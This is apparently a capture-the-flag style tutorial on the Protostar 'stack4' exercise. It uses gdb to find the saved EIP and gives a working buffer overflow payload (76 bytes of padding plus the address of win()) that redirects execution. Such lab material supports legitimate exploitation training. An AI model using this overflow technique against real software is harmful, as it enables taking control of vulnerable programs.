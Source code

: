 <h2>Goal</h2>
The objective here is again to call the win function, but by overwriting `$EIP` instead of a variable that is used to call a function.

```
objdump -d stack4 | grep win
080483f4 <win>:
```

This is where gdb is going to be required, the previous could be determined by someone experienced without using gdb.

Lets go inside gdb and start examining `gdb -q stack4`


To do this exercise (not just by guessing) will require to learn the `LEAVE` and `RET` instructions.  A very very brief refresher, but by no means a detailed explanation.  `LEAVE` is used to release the stack frame by copying `$EBP` into `$ESP`.  `RET` is then used to go to a return address on the stack, which then becomes `$EIP`. 

What does this mean?

It means we need to find what the value of `$EIP` is after the `RET` instruction, then go back and break at `RET` and find that value on the stack. That value will be the target address to overwrite.

To find out the values of `LEAVE` and `RET`
`(gdb)disas main`

The last few lines will have the instructions `LEAVE` and `RET`. Set a breakpoint for the `RET` line. Should look something like:
`(gdb)break *main+23`

We have created a breakpoint at the  `RET` instruction, now define a hook-stop so that on every break point the hook-stop prints out the values I requested. In this case I used:

```
(gdb)define hook-stop
>x/1i $eip
>x/8wx $esp
>end
```
This will print out the current `$EIP` value and top eight values of the stack.  The break will pause execution at the line `gets(buffer);`

Create exploit payload using python.

This payload is the size of the buffer, we do not want to overwrite the value of `$EIP` just yet.
`python -c 'print "A"*64 > /tmp/exp`

We can use the file as input for the executable in gdb.
`(gdb) run < /tmp/exp`

Once the breakpoint is hit you can view the value of `$EIP` and top eight `$ESP` printed out thanks to the hook stop.

In gdb send a `s` to tell it to single step, this will move to the next instruction and pause again.

Issues the command `i r`, this will show the value of the registers. Look for the `$EIP` value. For me it was: `0xb7eadc76`

Now, re-issues the run command.  Once the breakpoint is hit, do not continue.  `0xb7eadc76` should show in the top 8 values of the stack as printed by the hook-stop. If it is not you can use:
`x/80x $esp`, this will print 80 values of the stack.  You should be able to find the value now.

Here is what I got:
```							
0xbffffca0:	0x000000 0xbffffd00 0xb7eadc76
```
`ebp` = `0xbffffd00`
Saved `eip` that return loads = `0xb7eadc76`

The goal is to overwrite that value with the win function address.  To determine how much padding is between the end of our variable `buffer` found the number of bytes between the end of the `0x414141`'s and the byte before $EIP starts, b7 of the saved `$EIP`. We will need to add that many more garbage bytes, then our memory address `\xf4\x83\x04\x08`.  I had to add 12 more garbage bytes (A's) in then my address to get this to work.

<h2>solution</h2>

`python -c 'print "A"*76+"\xf4\x83\x04\x08"' | ./stack4`

